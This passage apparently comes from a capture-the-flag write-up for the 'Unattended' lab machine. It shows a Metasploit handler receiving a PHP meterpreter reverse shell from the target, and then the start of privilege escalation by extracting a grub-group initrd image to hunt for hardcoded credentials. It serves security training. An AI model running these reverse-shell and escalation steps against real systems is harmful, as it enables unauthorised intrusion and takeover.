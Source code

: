 Setting up a new meterpreter session we immediately see our `guly` session:
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 80
LPORT => 80
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.12:80 
[*] Sending stage (39927 bytes) to 10.10.10.126
[*] Meterpreter session 1 opened (10.10.16.12:80 -> 10.10.10.126:59992) at 2023-03-27 16:21:29 -0700

meterpreter > 
```

### User to Root Via Initrd Hardcoded Credentials 

With our `guly` user session, we need to begin enumerating for local privilege escalation. Our user is part of the `grub` group, something that jumps out of the ordinary. Search for files that are part of this group:
```
guly@unattended:/tmp$ find / -group grub 2>/dev/null
find / -group grub 2>/dev/null
/boot/initrd.img-4.9.0-8-amd64
```
This initrd file is part of how a Linux system boots. It's known as the [initial RAM disk](https://developer.ibm.com/articles/l-initrd/), and is the first filesystem mounted prior to when a real filesystem is available. It contains minimal directories and executables to obtain this.  Unzipping this file will give us more details:

```
guly@unattended:/tmp$ mkdir initrd
guly@unattended:/tmp$ cp /boot/initrd.img-4.9.0-8-amd64 initrd
guly@unattended:/tmp$ cd initrd
guly@unattended:/tmp/initrd$ ls     
initrd.img-4.9.0-8-amd64
guly@unattended:/tmp/initrd$ mv initrd.img-4.9.0-8-amd64 initrd.img-4.9.0-8-amd64.gz
guly@unattended:/tmp/initrd$ gzip -d initrd.img-4.9.0-8-amd64
gzip -d initrd.img-4.9.0-8-amd64
guly@unattended:/tmp/initrd$ ls
initrd.img-4.9.0-8-amd64
```

This new file is a `cpio` archive and will require further extraction, this yields a lot of new files.

```
guly@unattended:/tmp/initrd$ file initrd.img-4.9.0-8-amd64
initrd.img-4.9.0-8-amd64: ASCII cpio archive (SVR4 with no CRC)
guly@unattended:/tmp/initrd$ cpio -idvm < initrd.img-4.9.0-8-amd64     
.
boot
boot/guid
lib64
lib64/ld-linux-x86-64.so.2
init
scripts
scripts/nfs
scripts/local-block
scripts/local-block/ORDER
scripts/local-block/cryptroot
```